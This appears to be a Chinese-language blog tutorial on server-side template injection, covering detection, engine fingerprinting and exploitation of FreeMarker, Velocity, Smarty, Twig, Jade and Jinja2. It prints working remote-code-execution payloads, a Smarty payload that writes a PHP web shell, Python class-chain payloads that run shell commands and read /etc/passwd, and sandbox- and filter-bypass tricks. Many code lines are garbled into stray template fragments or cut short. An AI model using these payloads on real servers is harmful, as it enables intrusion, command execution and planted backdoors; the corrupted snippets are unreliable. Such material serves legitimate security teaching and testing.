


模板注入(ssti)
本文介绍模板注入。
一、概述
模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。
二、什么是服务端模板注入
通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：
1 | $output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) ); |
有经验的读者可能迅速发现 XSS，但是问题不止如此。这行代码其实有更深层次的隐患，假设我们发送如下请求：
1 | {% assign openTag = '{{7*7}}' %} |
还有更神奇的结果：
1 | {% assign openTag = '{{self}}' %} |
我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI（文件包含）触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。
为什么我们在模板注入前加“服务端”呢？这是为了和 jQuery，KnockoutJS 产生的客户端模板注入区别开来。通常的来讲，前者甚至可以让攻击者执行任意代码，而后者只能 XSS。
1：探测漏洞
漏洞一般出现在这两种情况下，而每种有不同的探测手法：
文本类
大部分的模板语言支持我们输入 HTML，比如：
1 | smarty=Hello {user.name} |
未经过滤的输入会产生 XSS，我们可以利用 XSS 做我们最基本的探针。除此之外，模板语言的语法和 HTML 语法相差甚大，因此我们可以用其独特的语法来探测漏洞。虽然各种模板的实现细节不大一样，不过它们的基本语法大致相同，我们可以发送如下 payload：
1 | smarty=Hello ${7*7} |
来确认漏洞。
代码类
在一些环境下，用户的输入也会被当作模板的可执行代码。比如说变量名：
1 | personal_greeting=username |
这种情况下，XSS 的方法就无效了。但是我们可以通过破坏 template 语句，并附加注入的HTML标签以确认漏洞：
1 | personal_greeting=username<tag> |
2：信息收集
检测到模板注入后，我们需要判断具体的模板引擎。我们需要 fuzz 不同的字符，再通过返回的错误判断。当模板引擎屏蔽错误后，该类当法就失效了，并且暴力 fuzz 也对攻击自动化不友好。Burpsuite 则对不同模板接受的 payload 做了一个分类，并以此快速判断模板引擎：

这里的绿线表示结果成功返回，红线反之。有些时候，同一个可执行的 payload 会在不同引擎中返回不同的结果，比方说49会在 Twig 中返回49，而在 Jinja2 中则是7777777。
三、测试方法
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击
1.测试用例
简单的数学表达式：
1 | {% assign openTag = '{{ 7+7 }}' %} |
字符串表达式：
1 | {% assign openTag = '{{ "ajin" }}' %} |
- Ruby
1 | <%= 7 * 7 %> |
- Java
1 | ${7*7} |
- Twig
1 | {% assign openTag = '{{7*7}}' %} |
- Smarty
1 | {php}echo `id`;{/php} |
- AngularJS
1 | $eval('1+1') |
- Tornado
引用模块
1 | {% assign openTag = '{% ' %} |
- Flask/Jinja2
1 | {% assign openTag = '{{ ' %} |
- Django
1 | {% assign openTag = '{' %} |
2.目标
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权
四、漏洞利用
1.读文档
读模板文献是构造 exp 的第一步。一般来讲，我们需要关注如下部分：
- ‘Template 使用手册’，这一部分通常告诉我们基本的模板语法
- ‘安全问题’，在攻击模板时，它通常可以提供我们许多思路
- 内建方法，函数，变量，过滤器
- 插件/扩展——我们可以优先研究默认开启的
2.探环境
当我们构建出了可用 exp 后，我们需要考虑我们当前环境可利用的函数/对象。除了模板默认的对象和我们提供的参数外，大部分模板引擎都有一个包含当前命名空间所有信息的对象（比如 self），或者一个可以列出所有属性和方法的函数。
如果没有这样的对象或函数，我们需要暴力枚举变量名。有些时候，开发者也会在模板中包含了一些敏感信息。
3.黑程序
不要局限目光于通用特性，我们还需注意到不同开发者的实现细节。
用模板注入来实现任意对象创建，任意文件读写，远程文件包含，信息泄露以及提权。
有些时候，攻破一个程序不需要多少时间，比如：{php}echo id;{/php}
这时，我们只需递交：
1 | <% |
即可，但是越来越多的模板会提供安全措施（比方说沙箱，过滤）来保证安全性，因此开发模板注入后门越来越难了。
五、案例
FreeMarker
文档地址：https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security
FreeMaker 是 Java 下最受欢迎的模板引擎。用户可以通过实现 TemplateModel 来用 new 创建任意 Java 对象。
1 | public class Execute |
payload
1 | <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") } |
Velocity
Velocity 同样是一款备受欢迎的模板语言。然而它没有默认变量列表和安全问题页面帮助我们构建 payload。
百度一下：ClassTool：在模板中实现Java的反射，默认参数：$key
这里有几个可利用的方法和属性：
1 | $class.inspect(class/object/string)：返回正在审查类或对象的ClassTool实例 |
换句话说，我们可以通过这两个类获得任意对象信息。再利用目标的Runtime.exec()执行任意命令嗯。通过如下模板，我们可以验证这一点：
1 | $class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒 |
得到 shell 命令输出有点麻烦：
1 | #set($str=$class.inspect("java.lang.String").type) |
Smarty
Smarty 是一款 PHP 的模板语言。它使用安全模式来执行不信任的模板。它只运行 PHP 白名单里的函数，因此我们不能直接调用 system()。然而我们可以从模板已有的类中进行任意调用。而文档表示我们可以通过 smarty 来获取许多环境变量（比如当前变量的位置 $SCRIPT_NAME)。后面，我们又发现了 getStreamVariable:

这个函数能任意读取有读写权限的文件：
1 | {self::getStreamVariable("file:///proc/self/loginuid")} |
不仅如此，我们能任意调用静态方法，这当中包括一个可以创建和重写文件的方法public function writeFile($_filepath, $_contents, Smarty $smarty)。通过该方法，我们能轻松在web目录下创建后门。值得注意的是，第三个参数必须为 Smarty 对象，所以我们要想办法得到 Smarty 对象的引用。
幸运的是，self::clearConfig帮助我们获取对象：
1 | public function clearConfig($varname = null) |
最后，我们就可以创建后门了！
1 | {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())} |
Twig
Twig 和 Smarty 类似，不过我们不能用它调用静态方法。幸运的是，它提供了 _self，我们并不需要暴力枚举变量名。虽然 _self 没什么有用的方法，它提供了指向 Twig_Environment 的env 属性。Twig_Environment 其中的 setCache 方法则能改变 Twig 加载 PHP 文件的路径。这样一来，我们就可以通过改变路径实现 RFI了：
1 | {% assign openTag = '{{' %} |
但是，PHP 默认禁止远程文件包含（关闭 allow_url_include），因此上述 payload 不能生效。进一步探索，我们在 getFilter 里发现了危险函数 call_user_func。通过传递传递参数到该函数中，我们可以调用任意 PHP 函数：
1 | public function getFilter($name) |
我们只需注册 exec 为 filter 的回调函数，并如此调用：
1 | {% assign openTag = '{{' %} |
Twig（沙箱模式）
Twig 的沙箱模式有额外的限制。它会禁用一部分函数（包括开发者提供的对象），因此我们并不能调用有价值的东西。万幸的是，这部分代码帮助我们突破限制：
1 | public function checkMethodAllowed($obj, $method) |
这里，我们可以调用实现 Twig_TemplateInterface 的对象，也就是说我们可以简介使用 _self.，_self.中的 displayBlock 让我们更上一层楼：
1 | public function displayBlock($name, array $context, array $blocks = array(), $useBlocks = |
我们可以用
1 | $template ->$block($context, $blocks) |
绕过白名单限制。以下的代码会调用 userObject 对象的 vulnerableMethod：
1 | {% assign openTag = '{{' %} |
虽然现在不能获得化境变量，但我们可以利用 _context 属性查找开发者自定义的对象并调用有用的目标。
Jade
Jade 是一款 Node.js 模板引擎。http://CodePen.io 则可以接受用户递交该模板。这里，我会展示如何对模板注入进行黑盒测试。
首先，让我们来确认模板可以执行代码：
1 | = 7*7 |
再来确认 self 对象的位置：
1 | = root |
我们来列一下对象属性和函数：
1 | - var x = root |
这些可能是可利用的函数：
1 | - var x = root.process |
绕过保护机制：
1 | - var x = root.process.mainModule |
确定有用的函数：
1 | - var x = root.process |
最终 exp：
1 | - var x = root.process |
六、拓展
1.相关属性
class
1 | python中类对象的 __mro__ 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。 |
python中类对象的 __mro__ 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。
globals
1 | 保存了函数所有的所有全局变量，在利用中，可以使用__init__获取对象的函数，并通过__globals__获取file、os等模块以进行下一步的利用 |
python的新式类都保留了它所有的子类的引用，__subclasses__() 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。因为python中的类都是继承object的，所以只要调用object类对象的 __subclasses__() 方法就可以获取想要的类的对象。
2.常见Payload
1 | ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' ) |
3.绕过技巧
字符串拼接
绕过技巧
1 | ().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read() |
使用参数绕过
1 | params = { |
 微信
微信- 支付宝